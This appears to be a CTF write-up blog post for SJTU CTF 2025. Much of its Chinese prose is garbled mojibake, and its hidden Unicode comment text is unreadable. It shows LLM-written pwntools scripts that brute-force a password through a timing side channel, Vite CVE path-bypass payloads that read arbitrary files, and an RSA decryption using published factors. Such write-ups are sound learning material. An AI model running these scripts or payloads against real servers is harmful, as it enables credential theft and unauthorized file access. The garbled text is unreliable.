


<div class="admonition">
本文最åˆå‘表在<a href="https://shuiyuan.sjtu.edu.cn/t/topic/365479">æ°´æºç¤¾åŒº</a>。å‘表在本站时，移除了仅水æºç¤¾åŒºç”¨æˆ·å¯è®¿é—®çš„内容。
</div>

å‰æƒ…æè¦ï¼š<a href="https://notes.sjtu.edu.cn/s/M8ka52CHh">SJTU CTF 2025 游æˆè®¾è®¡æ–‡æ¡£</a>

大家好啊，这里是å¡æè²å°”糊精。最近谜题档期空了，就æ¥æ ¡èµ›ç©äº†ã€‚本æ¥åªæƒ³ç€åšå‡ é“简å•é¢˜å°±è·‘路的，结æœå‘ç°ç®€å•é¢˜æ€ä¹ˆé‚£ä¹ˆå¤šï¼ˆï¼Ÿï¼‰æœ€å也是多谢囤flagçš„WuYan大佬<ruby>手下留情<rt>被系统制è£</ruby>，拿下了总榜首ä½ã€‚

è¿™å›æˆ‘大é‡ä½¿ç”¨äº†å¤§è¯­è¨€æ¨¡å‹ã€‚相比两年å‰ç…§ç€éœ€æ±‚写程åºéƒ½å†™ä¸æ˜ç™½çš„GPT，如今的LLM独立和辅助解题能力有了巨大的é£è·ƒã€‚解题赛的谜题性质相对独立，通过代ç æ述严谨，很容易整ç†æˆæ¨¡å‹æ˜“读的格å¼ã€‚我将使用的模å‹ã€æ示è¯ã€æ¨¡å‹å›å¤ä¸­æœ‰ç”¨çš„部分截å–列出。如æœä½ ä¹Ÿä½¿ç”¨äº†å¤§æ¨¡å‹å´æ²¡æœ‰è°ƒæ•™å‡ºæœ‰æ•ˆç»“æœï¼Œå¯ä»¥å‚考这些对è¯è®°å½•ã€‚

å¸å–上å›çš„教训，这次边åšè¾¹å†™write-up了。åšé¢˜ä¸€æ—¶çˆ½ï¼Œç­‰åˆ°å†™ezWriteUp就写ä¸å®Œäº†ï¼Œä¸€å®šè¦è¾¹åšè¾¹å†™å•Šï¼è‡³å°‘è¦åœ¨åšçš„时候把数æ®æ”¶é›†å…¨ï¼Œäº‹åå¤ç°é常浪费时间的。

那么以下正文开始。

## Welcom3

> 胡乱分æ：文档想必è—题了 ğŸ–

æ—©å°±å‘ç°é¥®æ°´æ€æºä¸å¯¹åŠ²äº†ã€‚但想必交了`0ops{d4818d7a8ff1e2638d79b6ecd398beb156d078a9fc3f98c4363aca8d876dc626}`的也ä¸æ­¢æˆ‘一个。我觉得这题好怪。

## TIME&POWER

<details lang=en>
<summary>DeepSeek-V3</summary>
<blockquote>

**User**: I'm in a CTF contest and here is a `nc` console dialog:

```
Please input your password (all in lowercase letters): abcdefg
Invalid length!

Please input your password (all in lowercase letters): abcdefghi
Invalid length!

Please input your password (all in lowercase letters): abcdefghijk
Invalid length!
```

Write a pwn script to brute force the length of the password.

**Model**: To brute-force the length of the password in this CTF challenge, you need to determine the correct password length by testing different lengths until you find the one that doesn't return "Invalid length!". Here's a Python script using `pwntools` to automate this process:

### Python Script (Using pwntools)
```python
from pwn import *

def brute_force_password_length(host, port, max_length=50):
    for length in range(1, max_length + 1):
        try:
            # Connect to the server
            conn = remote(host, port)
            
            # Receive initial prompt
            conn.recvuntil(b"Please input your password (all in lowercase letters): ")
            
            # Send a test password of the current length (e.g., 'a' * length)
            test_password = 'a' * length
            conn.sendline(test_password.encode())
            
            # Check the response
            response = conn.recvline().decode().strip()
            conn.close()
            
            if "Invalid length!" not in response:
                print(f"Possible valid length found: {length}")
                print(f"Server response: {response}")
                return length
            else:
                print(f"Length {length}: Invalid")
                
        except Exception as e:
            print(f"Error at length {length}: {e}")
            continue
    
    print("No valid length found in the tested range.")
    return None

# Replace with the actual host and port
host = "example.com"
port = 1234

brute_force_password_length(host, port)
```

### Explanation:
1. **Loop through possible lengths**: The script tests password lengths from `1` up to `max_length` (default: 50).
2. **Connect to the server**: For each length, it establishes a new connection.
3. **Send a test password**: It sends a string of lowercase `'a'` characters with the current length.
4. **Check the response**: If the server does **not** reply with `"Invalid length!"`, it means the length is likely correct.
5. **Close the connection**: After each attempt, the connection is closed to avoid resource issues.

### Notes:
- Adjust `max_length` if you suspect the password is longer than 50 characters.
- If the server has rate-limiting or delays, you may need to add `time.sleep()` between attempts.
- If the correct password length is found, the script will print it and exit. Otherwise, it will test all lengths up to `max_length`.

### Alternative (Without pwntools)
If you don't have `pwntools`, you can use `socket`:

[…]

Run the script, and it will brute-force the correct password length. Let me know if you need further refinements!

**User**: I have pwntools. The session is a single session (it does not disconnect after a failed try). Update the code.

**Model**: If the connection remains open after each attempt (i.e., it's a single interactive session), you should **reuse the same connection** instead of creating a new one for each guess. Here's the updated script using `pwntools`:

### Updated Script (Single Session)
```python
from pwn import *

def brute_force_password_length(host, port, max_length=50):
    # Establish a single connection
    conn = remote(host, port)
    
    for length in range(1, max_length + 1):
        try:
            # Receive the prompt (if needed)
            conn.recvuntil(b"Please input your password (all in lowercase letters): ")
            
            # Send a test password of the current length
            test_password = 'a' * length
            conn.sendline(test_password.encode())
            
            # Check the response
            response = conn.recvline().decode().strip()
            
            if "Invalid length!" not in response:
                print(f"Valid length found: {length}")
                print(f"Server response: {response}")
                conn.close()
                return length
            else:
                print(f"Length {length}: Invalid")
                
        except EOFError:
            print("Connection closed by server.")
            break
        except Exception as e:
            print(f"Error at length {length}: {e}")
            break
    
    conn.close()
    print("No valid length found in the tested range.")
    return None

# Replace with the actual host and port
host = "example.com"
port = 1234

brute_force_password_length(host, port)
```

### Key Changes:
1. **Single Connection**: The script now maintains **one persistent connection** (`conn`) throughout the brute-forcing process.
2. **Reuse the Same Socket**: Instead of reconnecting for every guess, it sends multiple attempts over the same connection.
3. **Handles Server Closure**: If the server disconnects (`EOFError`), the script stops gracefully.
4. **Efficiency**: Avoids the overhead of re-establishing connections repeatedly.

### How It Works:
- The script sends passwords of increasing length (`a`, `aa`, `aaa`, etc.).
- If the server stops responding with `"Invalid length!"`, it means the length is correct.
- The connection is closed only after finding the correct length or exhausting all attempts.

### Example Output:
```
Length 1: Invalid
Length 2: Invalid
...
Length 8: Invalid
Valid length found: 9
Server response: (some new prompt or flag)
```

This approach is **faster and more reliable** for challenges where the server maintains a single session. Let me know if you need adjustments! 🚀

**User**: Okay I see where this is going. The password length is 14 characters. The server responds with a "Checking" message. The key is that, with a correct character, the check takes quite a long time (at least 100ms), whereas upon the first wrong letter, the check skips to 14/14 immediately and says wrong password.

```
Please input your password (all in lowercase letters): aaaaaaaaaazdef
Checking...(1/14)(2/14)(3/14)(4/14)...(14/14)
Wrong password. 
```

Use the delay info to bruteforce the password!

**Model**: ### **Timing-Based Password Bruteforcer (Using `pwntools`)**
Since the server checks characters **one by one** and introduces a **delay (~100ms) per correct character**, we can exploit this timing side-channel to brute-force the password.

#### **Approach**
1. **Start with a dummy password** (e.g., `'a'*14`).
2. **For each position**, try every lowercase letter (`a-z`):
   - If the server takes **longer to respond**, the character is correct.
   - If it responds **quickly**, the character is wrong.
3. **Repeat** until all 14 characters are found.

---

### **Final Script**
```python
from pwn import *
import time

def brute_force_password(host, port, length=14):
    password = ['a'] * length  # Start with a dummy password
    charset = 'abcdefghijklmnopqrstuvwxyz'  # Lowercase letters only

    for i in range(length):
        max_delay = 0
        best_char = 'a'

        for c in charset:
            conn = remote(host, port)
            conn.recvuntil(b"Please input your password (all in lowercase letters): ")

            # Build test password: known correct chars + current guess + dummy rest
            test_pw = ''.join(password[:i]) + c + 'a' * (length - i - 1)
            conn.sendline(test_pw.encode())

            start_time = time.time()
            response = conn.recvline()  # Wait for response
            end_time = time.time()
            conn.close()

            delay = end_time - start_time
            print(f"Trying '{c}': Delay = {delay:.3f}s")

            if delay > max_delay:
                max_delay = delay
                best_char = c

        password[i] = best_char
        print(f"Found char {i+1}/{length}: {best_char} (Delay: {max_delay:.3f}s)")
        print(f"Current password: {''.join(password)}")

    print(f"\nFinal password: {''.join(password)}")
    return ''.join(password)

# Example usage
host = "example.com"
port = 1234
brute_force_password(host, port)
```

[废è¯]

**User**: As before, reuse the same connection.
The password starts with 10 'a's, so there are only four chars remaining to search.

**Model**: ### **Optimized Timing Attack (Reusing Connection + Known Prefix)**
Since:
1. **The password starts with `'a'*10`** (so we only need to brute-force the last 4 chars).
2. **The connection stays open** (no reconnecting every time).
3. **Timing leaks reveal correct chars** (~100ms delay per correct guess).

Here’s the **optimized script**:

```python
from pwn import *
import time

def brute_force_password(host, port, known_prefix='a'*10, remaining_length=4):
    password = list(known_prefix + 'a' * remaining_length)  # e.g., 'a'*10 + 'a'*4
    charset = 'abcdefghijklmnopqrstuvwxyz'  # Only lowercase letters

    conn = remote(host, port)  # Single persistent connection

    for i in range(len(known_prefix), len(password)):  # Only brute last 4 chars
        max_delay = 0
        best_char = 'a'

        for c in charset:
            conn.recvuntil(b"Please input your password (all in lowercase letters): ")

            # Test: known_prefix + current guess + dummy rest
            test_pw = ''.join(password[:i]) + c + 'a' * (len(password) - i - 1)
            conn.sendline(test_pw.encode())

            start_time = time.time()
            response = conn.recvline()  # Wait for response
            end_time = time.time()

            delay = end_time - start_time
            print(f"Trying '{c}': Delay = {delay:.3f}s")

            if delay > max_delay:
                max_delay = delay
                best_char = c

        password[i] = best_char
        print(f"Found char {i+1}/{len(password)}: {best_char} (Delay: {max_delay:.3f}s)")
        print(f"Current password: {''.join(password)}")

    conn.close()
    print(f"\nFinal password: {''.join(password)}")
    return ''.join(password)

# Example usage
host = "example.com"
port = 1234
brute_force_password(host, port, known_prefix='a'*10, remaining_length=4)
```

[废è¯]

</blockquote>
</details>

<!---->

## Inaudible

题目åŸå›¾ï¼š

<!---->

需è¦å°†é¢‘谱图转å›éŸ³é¢‘。

<details lang=en>
<summary>DeepSeek-V3</summary>
<blockquote>

**User**: I've got an image of audio spectrum, as plotted by matplotlib. The rectangle-shaped spectrum plot spans from 0 seconds to 1.8 seconds in x axis (right is +), and from 0.0kHz to 6.0kHz in y axis (up is +). Write a program to process the image to get the audio back. The image is called `Inaudible_grayscale.png`. The color map is given in a separate file `Inaudible_colormap.png`: it is a horizontal strip, where the color on the far left is -60dB, and far right is 60dB, middle is 0dB.

**Model**: [废è¯è¿ç¯‡]

```python
import numpy as np
from PIL import Image
from scipy.io import wavfile
from scipy.signal import istft
import librosa

def reconstruct_audio_from_spectrogram():
    # Load the spectrogram image and colormap
    spectrogram_img = Image.open('Inaudible_grayscale.png').convert('L')
    colormap_img = Image.open('Inaudible_colormap.png').convert('L')
    
    # Convert images to numpy arrays
    spectrogram = np.array(spectrogram_img)
    colormap = np.array(colormap_img)[0, :]  # Take first row of colormap
    
    # Normalize spectrogram to 0-1 range
    spectrogram_norm = spectrogram.astype(float) / 255.0
    
    # Create dB mapping from colormap
    # Colormap goes from -60dB (left) to +60dB (right)
    db_values = np.linspace(-60, 60, len(colormap))
    
    # Create interpolation function to map grayscale to dB
    from scipy.interpolate import interp1d
    grayscale_values = np.linspace(0, 1, len(colormap))
    db_interp = interp1d(grayscale_values, db_values, kind='linear', fill_value='extrapolate')
    
    # Convert spectrogram to dB scale
    spectrogram_db = db_interp(spectrogram_norm)
    
    # Convert dB to linear magnitude scale (assuming power spectrogram)
    spectrogram_mag = 10 ** (spectrogram_db / 20)
    
    # Parameters (adjust these based on your STFT parameters)
    fs = 12000  # Sample rate (Hz) - needs to be at least 2*6kHz=12kHz
    n_fft = 512  # FFT size (adjust based on resolution)
    hop_length = n_fft // 4  # Typical overlap
    
    # Use Griffin-Lim algorithm for better phase estimation
    audio = librosa.griffinlim(spectrogram_mag.T, n_iter=32, hop_length=hop_length, win_length=n_fft)
    
    # Normalize audio to 16-bit range
    audio = librosa.util.normalize(audio) * 0.9  # Scale to 90% to avoid clipping
    audio = (audio * 32767).astype(np.int16)
    
    # Save as WAV file
    wavfile.write('reconstructed_audio.wav', fs, audio)
    
    return audio

# Run the reconstruction
reconstructed_audio = reconstruct_audio_from_spectrogram()
```

</blockquote>
</details>

这样产生的音频用Audacity查看频谱图å¯ä»¥å‘ç°æ¯”例对ä¸ä¸Šï¼Œè½´ä¹Ÿå了。注æ„一般音频软件的频谱图频ç‡è½´ä¸ä¼šæ˜¯çº¿æ€§åˆ»åº¦ã€‚这里是梅尔刻度，选项里å¯ä»¥è°ƒæˆçº¿æ€§ã€‚

<!---->

好说，改改输入数组就行了。

```diff python
     # Use Griffin-Lim algorithm for better phase estimation
-    audio = librosa.griffinlim(spectrogram_mag.T, n_iter=32, hop_length=hop_length, win_length=n_fft)
+    audio = librosa.griffinlim(spectrogram_mag[::-4], n_iter=32, hop_length=hop_length, win_length=n_fft)
```

<!----><audio src="Inaudible.flac" controls alt="zero-day vulnerabilities"></audio>

时长ä»ç„¶ä¸å¯¹ä½†å正已ç»èƒ½å¬å‡ºäººè¯æ¥äº†å°±ä¸ç®¡äº†ã€‚

## ezCrypt

> C████C███也就这ç§æ—¶å€™æœ‰ç”¨äº† ğŸ–

我觉得CyberChef真ä¸å¥½ç”¨å§ï¼Œå°±åªæœ‰ä¼ ç»ŸåŠ å¯†å¥—娃这ç§puzzle hunt都已ç»ä¸ç©äº†çš„题æ‰å¥½ç”¨ã€‚

把文本粘贴到CyberChef，然åä¸æ–­ç‚¹å‡»magic按钮。[èœè°±é“¾æ¥](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',false,true)Gunzip()Tail('Line%20feed',1)From_Binary('None',8)Tail('Line%20feed',1)From_Base85('0-9A-Za-z!%23$%25%26()*%2B%5C%5C-;%3C%3D%3E?@%5E_%60%7B%7C%7D~',false,'')&input=SDRzSUFQZVN3V2NDLzdWYVcyNGNSd3o4OXlubUFFRlFkWUo4K0NScllHTUpWclNHSGpGOCt3VHJtZTZxSW1lMFVwRGtRL0RPVGovSVlyRklMaTdmbjM5YkhpNlhiOC9Mdy8yMzgvTGp2TnlkL2o0dnArWHBmSHA0K1BudnM4ZXZ5K1ByWDEvT1Q3OHZuMCtQeTgvTDYvTG4vZGZYcC9OeWVYMVpmdHlkWHBhWHUvdm41Zjc1ajArZndPdi9BSzkvZVAzTFgzK3hmblQ5ajV6ZkkvWHo3Y05mbjJ6UDUxOXV6MlU5ZWQvMngvamV0a2M5eC9yVzd2TnRQVUxQNGVjZFI5THpRaSsvblZ2ZUc5L2IxcWozWDk4N3VNOXEydGF1K24xZG4zN2VzVWpjYSs3ZmZyNGVyZDVIWHJubHZuditDaE1NLzM0RUgrNC92WmZ2aCtuY2FkUjFwMjI1emU3cis5TjI4dFNST1h5Nk9XdmJldnVtMko5emVWMTlQaDhycWIybUFjZDlOcytPZTdKY2h0VFY1dnZiNXJMQWFseGJmOFFhL0ROQ0RrYXhtOEoxTTRTR3IyS0RNNWJESTJNVlA1L2FzZHdQY3Y5aDE3eHorSThDeXJuZWRCbW5uWmorVS85dmRpTXR2alh5bVBoWDUrcDJOSDR6KzBnOFR4NkM4SSsreitxZkdkY285b0cvZjR4L1hVbTJ1Qm5maW1DMjd3ZUpEZmZSL0EvejM3d3ZlLzhHMVhYK29jZTM0VUg5QnlvLzl2N0R6RGZDWTRqMVVlMWphNW9QM041eVBzUEhYRStob2VjSmZIYjJSM3QvOHhmRW54Mis4cjZKajczNHNIaFMvOFVPRTErSlg5N0kzODM5T256STg4YitLaXdDN3pQZHFrOVIyTkw1QmFKRGRGMTNzbkxIY2Z6TmY5d1duNUsvd3Y0ZXY1VHJ3OUpNNUwveTc4UlA1UmZqcngzKzBmVWEvTmhGRzRsbThaNnBvTVdIR0R2alZ6aHBabUhQV0oxOWFWUWI4ZERpNy9qKzRZTGdQOEZuRTErdVh6cjg1ZjZzK0lEeGx5b3N3Vk81bnlVMll4QTAraW44Vy9EZjhibkZRT2p2NUJmZE5ha0VybDhDTkNXMyt2cGRma0dmSDF2L3AzMHp2ODExQWk5SWZVcnM0U2RTaE9zMzF2eXM4VlQwd1Z2NXQrUTNTMUVOZnBIOGs3ekhMditvQ0t6N2Qvd0k5UGcvemsreUh5cStib3V2SS8zaTlVV243eHovWkt1L29lbUtqZFlvK2MzdnY0dS9nL3paNlp2aFB3WWVlL3pmRkwrZFBwNXBtbUQ3SEdZL3JYVXNYL2Iyc1RSelVCODIvTGp6Zmg4L2lnNWZuOEN4dmdHNyt3bFFSdjBYKzN1K0wvZmZ6MCtnNnhOYWZRNTNvV0twc3o5TGZMdSs2dlhEdS9ESjIvQlBIT0h2UnZ6djZodEJmZWhBNjI4YzhJKzl2OGRQd1crOWZtVFB6MTYvdnV0K2lQN2IrL1dMOEp2MVA3eXZVL00vUDZ3UFduMjQ0MytMejlSM1IvWXgvemI5blR6dlBuNTcvYXFOcE1nL1ZaOTA5eWZmNHNmb1AyVDl3dy9XWi8rVlB6TmZxNXVLUFl2K25QNVhMdXowVzlXM1VmL3hJTDVLZkV0MXFQMlprY0JLdjlMYVlJbWg2MnVoRzJqMW10YnhWajhKTDY0SHJQV091VEt6RnpLUDJQdldHR2JaVjBPcitKWGF4OVgyTWFQUGFEMHVOV1l3bi9iUm5CbFYxVm4xUHZTa3FReXBEMFNnZWY4azZ2enNrd3FTbW5wTG13TmsyOE1Mc25iSERUdmxYR1E4a2Y2YTJSM3crcDVwbWRJcm5xc0txVnQrYW1zbkpyZ3NKenJkUmw4M2k1ZjAyNEN4OWhocGN5SVpnbEQ1QnpsUG1ZSTlCeHhaSjNYNEEyMHlJMzRWUXBobGkvVkxhVTFvK3JuanZwYmI1cGpGKzB6MCtCNndjVHk3RVFTMzlQNTVyWU90cm92N1p2T0VZK2VEOHhFbytiN0VoNHkxS3U2bi9hZWVpZmxGbTcvRWJ6R3ZpZGtFc3A3MldtendWdFNscUhQS3VJOWdSR0xTOUpMRzcvOFI1elFKZ2JZZnJMemFOS3k4TG9rK2tURXFST0JsdnhXaE04VWZqRHJBOUZIbUFlTUh3SHJLYW1hRm1pdTFiRFhZVUNzeWh5RlM1cFZlMHRQbU1hVTdpSngzYWw2UzVyL1VGL1ZzSTVwVVc3ay9vT25mZSswU2pkcmY5djRmZmJES2FLVFZPTGZ3aUx3SlhhZnlVNWtybWM1ditxNVZpcGU2RDBFMTlNb0NwZ3M5ai9sOGh1aDVJNmN4UGg4emdxUE5tNTFPQUorRENsaWpaVG4xcFlaKzlEcG9SQkg2Qm0yOGxmN09XL0hCTWxkQnRZTUhTdkd2cEJPZnh6VjROdTBsdnlaaEhHZ0t1eHJua29lZ2dlUDlpSXpMMU4xZFhHcGVjYjNqYWpDTG4vZ2xoTVdOejkycGM5V3MwWVhKeWR6WCs3VmJISFJ6Y0N1SlJjQms5dEdpbHRxZmpmeG15clhjTi9LNjRwMDVPNXQ1UVgrWFVmUXpZcDRlUUUzKzB5NWMxQ0hHOXhaanBoUHl2amJnaHNsTS8vMk51aVBtYTVyZll6NnBwUTlNZ0REelRad3ZKNXd1ZXpPdnFyQnE4clRzeDZMVGVNeTduaGVTNzBudjQrejROM1NlNERUbjFHR0xySnZSNTJlNlFzcEJxY1ZqMWkvSVVqZnpUSXVyZmpSZy9HM2tIdndzeHd6L1JoL1pBRWl5N1hkYWpqU2RGWHBONEZENjFvNnIrSkVCdmU4V1BLNHkwWFY3emlHNkFpZnRsd1E5cnZjUDN6YUV5MkVwQUFBPQ&ienc=65001)。

<!---->


```
I'm so sorry, I forgot to save the private key to decode the flag. But some supercomputer have already cracked it and uploaded to an online db. Can you find the flag?

n = 0x771b68deea7e2ecd0fa15099ae9085e1a6b163c415bde56c61ec811201d52e456e4a876db6da7af2695e206d9e3b23de02a16f675ad087c4bef3acc6c4e16ab3
e = 65537
c = 0x5641d8b05fda28c9af355a488bb6d97d9fe21ea645bc25814db317f04faa84a6fd93fa383396523f050b968e197f89febad840614840eebd675a3f917324f9d0
```

[在factordb.com上查询n](http://www.factordb.com/index.php?query=6238143373406144532542613891565796667768433897236661098978663257017587998717436489052602237149416255508431410438139089238652737575356801140372944004934323)，然å用分解出的på’Œq计算m。

```python
n = 0x771b68deea7e2ecd0fa15099ae9085e1a6b163c415bde56c61ec811201d52e456e4a876db6da7af2695e206d9e3b23de02a16f675ad087c4bef3acc6c4e16ab3
e = 65537
c = 0x5641d8b05fda28c9af355a488bb6d97d9fe21ea645bc25814db317f04faa84a6fd93fa383396523f050b968e197f89febad840614840eebd675a3f917324f9d0
p = 66720953144911165998838491049270049821121906475512246576323412599571011308613
q = 93496017058652140120451192281187268387402942550918512435321834788719825835671
d = pow(e, -1, (p - 1) * (q - 1))
m = pow(c, d, n)
print(m.to_bytes(114).lstrip(b'\0'))
```

## Emergency (Vite)

å‰ç«¯æ€ä¹ˆè¿ä¸€ä¸ªç©ºé¡¹ç›®ä»£ç æ–‡ä»¶éƒ½è¿™ä¹ˆå¤šå•Š 😠

翻了一é所有的给出的文件，除了vite.config.ts以外什么å¯ç–‘的地方。

```ts
  server: {
    allowedHosts: [".0ops.sjtu.cn"],
  },
```

说æ˜è¿™ä¸ªæœåŠ¡å™¨å°±æ˜¯Viteå¼€å‘æœåŠ¡å™¨ï¼Œè¿™ä¸€ç‚¹ä»é¢˜ç›®ç½‘页中的`<script type="module" src="/@vite/client"></script>`标签和WebSocketè¿æ¥ä¹Ÿèƒ½ç¡®è®¤ã€‚

结åˆé¢˜ç›®å称和AI创作的内容æ˜æ˜¾è¦æ‰¾Vite 6.2.2 CVE。如æœä½ åœ¨GitHub上有å¯ç”¨äº†Dependabotçš„Vite项目仓库，利用方法都已ç»é€šè¿‡ç«™å†…信和邮件å‘é€ç»™ä½ äº†ã€‚

<!---->

相关æ¼æ´ä»6.2.3一直修到6.2.5：

* 比赛开始4天å‰ï¼ŒCVE-2025-30208：[server.fs.deny bypassed when using `?raw??`](https://github.com/vitejs/vite/security/advisories/GHSA-x574-m823-4x7w)，利用方法为`/flag?raw??`。
* 赛程第4天，CVE-2025-31125：[`server.fs.deny` bypassed for `inline` and `raw` with `?import` query](https://github.com/vitejs/vite/security/advisories/GHSA-4r4m-qw57-chr8)，利用方法为`/flag?raw?import`。
* 赛程第7天，CVE-2025-31486：[`server.fs.deny` bypassed with `.svg` or relative paths](https://github.com/vitejs/vite/security/advisories/GHSA-xcj6-pq6g-qj4x)，利用方法为`/flag?.svg?.wasm?init`。

æ这刷CVEç¼–å·å‘¢ã€‚

我觉得Viteçš„æ¼æ´å“应工作åšå¾—很好。作为å‰ç«¯å¼€å‘æœåŠ¡å™¨ï¼Œé»˜è®¤ä¹Ÿä¸å¼€æ”¾ç»™é本机地å€è®¿é—®ï¼Œä»»æ„文件读的安全å±å®³å¹¶ä¸ç®—大，但开å‘者ä¾ç„¶ç®€æ˜æ‰¼è¦ã€è®¤çœŸè´Ÿè´£åœ°è¯´æ˜äº†æ¼æ´çš„æˆå› ã€å½±å“ã€æ”»å‡»æµç¨‹ã€‚åŒæ ·å¤„在å‰ç«¯ç”Ÿæ€ä¸­çš„Next.js也是个æ¼æ´å¤§æˆ·ï¼Œä¹‹å‰æ”¶åˆ°è¿‡ä¸¤æ¬¡ç›¸å…³çš„安全警报，报告很短还废è¯è¿ç¯‡ï¼ŒPoC也没有。~~（出题人：收到，下次就出~~

## IP Hunter 24

~~ä¸åœåœ°æ›´æ¢VPN节点~~

~~拼夕夕邀请好å‹ç ä¸€åˆ€~~

- http://geopeeker.com/
- https://urlscan.io/ 需è¦æ‰‹åŠ¨é€‰æ‹©ä¸€ä¸ªä¸€ä¸ªä¸€ä¸ªåœ°åŒº
- https://www.openstatus.dev/play/checker
- https://pingbear.com/
- https://www.virustotal.com/
- https://www.chinafy.com/tools/global-speed-test
- https://www.17ce.com/
- https://www.boce.com/
- http://www.webkaka.com/
- https://www.host-tracker.com/

比较æ¼çš„是很多网å€æ£€æŸ¥å’Œæµ‹é€ŸæœåŠ¡ä¸æ¥å—IP地å€ï¼Œå¿…é¡»è¦æœ‰åŸŸåæ‰èƒ½æŸ¥ã€‚

我觉得这题å¯èƒ½è¿˜æœ‰å¦ä¸€ä¸ªæ­£è§£æ˜¯æŠŠç½‘å€æ”¾åœ¨ä¸€ä¸ªå…¬å¼€çˆ¬å¾—到，但ä¸èƒ½è¢«äººç±»è®¿é—®ï¼ˆä»¥å…泄露flag）的地方养蛊，但我ä¸çŸ¥é“应该å‘到哪里最有效。

## deleted (SQLite)

<aside>* 解出äºæ示放出之å‰</aside>

🤔

<details lang=en>
<summary>DeepSeek-V3</summary>
<blockquote>

**User**: This is a CTF challenge.

deleted
=======

Save the flag !! ... before it's too late

Flag format: 0ops{...}

Note: Improper operation may cause the flag to be lost from the container. It is recommended to destroy and recreate the container at intervals of more than 20 seconds. The container startup takes about 5 seconds. If it takes more than this time, it indicates a startup failure. Please destroy it and wait for a sufficiently long time before recreating it.

```python
from fastapi import FastAPI
from fastapi.responses import JSONResponse, FileResponse
from fastapi.staticfiles import StaticFiles
import sqlite3
import uvicorn

app = FastAPI(docs_url=None, redoc_url=None, openapi_url=None)


@app.get("/")
async def index():
    return FileResponse("index.html")


# 👀󠄴󠅟ó …ó „—ó …¤ó „ó …‘ó …“ó …“ó …•ó …£ó …£ó „ó …¤ó …˜ó …™ó …£ó „ó …•ó …ó …”ó … ó …Ÿó …™ó …ó …¤ó „œó „ó …Ÿó …¢ó „ó …©ó …Ÿó …¥ó „󠅧󠅙󠅜󠅜ó „ó …ó …•ó …¦ó …•ó …¢ó „ó …—ó …•ó …¤ó „ó …¤ó …˜ó …•ó „󠅖󠅜󠅑󠅗󠄑
@app.get("/flag")
async def view_flag():
    db = sqlite3.connect("challenge.db")
    cur = db.cursor()
    data = cur.execute("SELECT * FROM flags").fetchall()
    db.close()
    data.append(["ğŸ‰ó „ ó …Ÿó … ó …£ó „œó „ó …¤ó …˜ó …•ó „󠅖󠅜󠅑󠅗ó „ó …™ó …£ó „ó …—ó …Ÿó …ó …•ó „ó …’ó …©ó „ó …ó …Ÿó …§ó „‘ó „ó …‚ó …•ó …£ó …¤ó …‘ó …¢ó …¤ó „ó …©ó …Ÿó …¥ó …¢ó „󠅓󠅘󠅑󠅜󠅜󠅕ó …ó …—ó …•ó „‘"])  # 🥹󠅄󠅘󠅕ó „󠅖󠅜󠅑󠅗ó „ó …™ó …£ó „ó …—ó …Ÿó …ó …•ó „ó …ó …Ÿó …§ó „
    # ğŸ˜ó „¶ó …¥ó …¢ó …¤ó …˜ó …•ó …¢ó „󠅜󠅟󠅧󠅕󠅢󠅙ó …ó …—ó „ó …©ó …Ÿó …¥ó …¢ó „ó …“ó …˜ó …‘ó …ó …“ó …•ó „ó …Ÿó …–ó „ó …—ó …•ó …¤ó …¤ó …™ó …ó …—ó „ó …¤ó …˜ó …•ó „󠅖󠅜󠅑󠅗ó „ó …’ó …©ó „󠅔󠅕󠅜󠅕󠅤󠅙ó …ó …—ó „󠅑󠅜󠅜ó „󠅖󠅜󠅑󠅗󠅣ó „ó …™ó …ó „ó …¤ó …˜ó …•ó „ó …”ó …’ó „
    db = sqlite3.connect("challenge.db")
    cur = db.cursor()
    cur.execute("PRAGMA journal_mode = OFF")  # 🚀󠄹ó …ó …“ó …¢ó …•ó …‘ó …£ó …•ó „ó „¹ó „¿ó „ó … ó …•ó …¢ó …–ó …Ÿó …¢ó …ó …‘ó …ó …“ó …•
    cur.execute("DELETE FROM flags")  # 💀󠄴󠅕󠅜󠅕󠅤󠅕ó „󠅑󠅜󠅜ó „󠅖󠅜󠅑󠅗󠅣
    db.commit()
    db.close()
    return JSONResponse(content={"flags": data, "total": len(data)})


